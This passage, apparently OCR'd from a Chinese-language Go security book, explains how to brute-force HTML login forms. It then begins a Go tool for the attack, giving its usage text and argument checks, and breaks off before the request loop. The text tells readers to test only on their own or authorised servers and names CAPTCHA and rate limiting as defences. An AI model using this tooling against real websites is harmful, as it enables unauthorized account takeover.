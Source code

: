 ```
         numThreads -= 1 
      } 
   } 

   // Wait for all threads before repeating and fetching a new batch 
   for numThreads > 0 { 
      <-doneChannel 
      numThreads -= 1 
   } 
} 
```

# 暴力破解 HTML 登录表单

几乎所有拥有用户系统的网站都会在网页上提供一个登录表单。我们可以编写一个程序，反复提交这个登录表单。这个示例假设该网站应用程序没有启用验证码、限制频率或其他防止攻击的机制。请记住，千万不要对任何生产网站或您没有拥有或许可的网站进行此类攻击。如果您想进行测试，建议您搭建一个本地服务器，只在本地进行测试。

每个网页表单的`username`和`password`字段的名称可能不同，因此在每次执行时需要提供这些字段的名称，并且这些名称必须与所攻击的 URL 特定。

查看源代码或检查目标表单，以获取输入元素的`name`属性以及`form`元素的目标`action`属性。如果`form`元素中未提供 action URL，则默认为当前 URL。另一个重要的信息是表单使用的方法。登录表单应该是`POST`方法，但也有可能编码不当而使用`GET`方法。一些登录表单使用 JavaScript 来提交表单，并可能完全绕过标准的表单方法。使用这类逻辑的网站需要更多的逆向工程才能确定最终的提交目标是什么以及数据是如何格式化的。您可以使用 HTML 代理或使用浏览器中的网络检查器查看 XHR 请求。

后面的章节将讨论网页抓取和在`DOM`接口中查询，以便根据名称或 CSS 选择器找到特定元素，但本章不会讨论尝试自动检测表单字段和识别正确输入元素。这一步必须在此手动完成，但一旦识别出来，暴力破解攻击就可以自行运行。

要防止这类攻击，可以实施验证码系统或速率限制功能。

请注意，每个 Web 应用程序都可以有自己的身份验证方式。这不是一种适合所有情况的解决方案。它提供了一个基本的`HTTP POST`表单登录示例，但需要稍作修改以适应不同的应用程序。

```
package main 

import ( 
   "bufio" 
   "bytes" 
   "fmt" 
   "log" 
   "net/http" 
   "os" 
) 

func printUsage() { 
   fmt.Println(os.Args[0] + ` - Brute force HTTP Login Form 

Passwords should be separated by newlines. 
URL should include protocol prefix. 
You must identify the form's post URL and username and password   
field names and pass them as arguments. 

Usage: 
  ` + os.Args[0] + ` <pwlistfile> <login_post_url> ` + 
      `<username> <username_field> <password_field> 

Example: 
  ` + os.Args[0] + ` passwords.txt` +
      ` https://test.com/login admin username password 
`) 
} 

func checkArgs() (string, string, string, string, string) { 
   if len(os.Args) != 6 { 
      log.Println("Incorrect number of arguments.") 
      printUsage() 
      os.Exit(1) 
```